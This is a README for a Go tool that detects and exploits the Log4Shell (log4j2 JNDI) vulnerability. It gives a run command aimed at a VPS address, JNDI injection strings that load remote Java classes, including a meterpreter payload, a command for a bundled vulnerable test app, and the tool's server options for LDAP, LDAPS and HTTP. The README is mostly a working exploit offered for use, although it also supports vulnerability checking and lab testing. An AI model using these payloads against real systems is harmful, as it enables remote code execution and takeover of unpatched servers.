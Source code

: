 # log4j2-exp
 * Check and exploit log4j2 vulnerability with single Go program. 
 * You don't need to install anything except develop it.
 * It supports ldaps and https server for other usage.

## Run
   ```log4j2-exp.exe -host "VPS IP address"```
  

## Check
 * run the log4j2-exp server
 * send ```${jndi:ldap://127.0.0.1/nop.class}```

## Exploit
 * run the log4j2-exp server
 * put your class file to the payload directory
 * send ```${jndi:ldap://127.0.0.1/meterpreter.class}```
 * will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.\
 * You can use it for develop this project easily.\
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1/calc.class}```

## Help
  ```
  :::        ::::::::   ::::::::      :::   ::::::::::: ::::::::
  :+:       :+:    :+: :+:    :+:    :+:        :+:    :+:    :+:
  +:+       +:+    +:+ +:+          +:+ +:+     +:+          +:+
  +#+       +#+    +:+ :#:         +#+  +:+     +#+        +#+
  +#+       +#+    +#+ +#+   +#+# +#+#+#+#+#+   +#+      +#+
  #+#       #+#    #+# #+#    #+#       #+# #+# #+#     #+#
  ########## ########   ########        ###  #####     ##########

                           https://github.com/For-ACGN/log4j2-exp

Usage of log4j2-exp.exe:
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":389")
  -ldap-net string
        ldap server network (default "tcp")
  -payload string
        payload(java class) directory (default "payload")
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  -tls-server
        enable ldaps and https server
  ```

## Screenshot
![](https://github.com/For-ACGN/log4j2-exp/raw/main/screenshot.png)
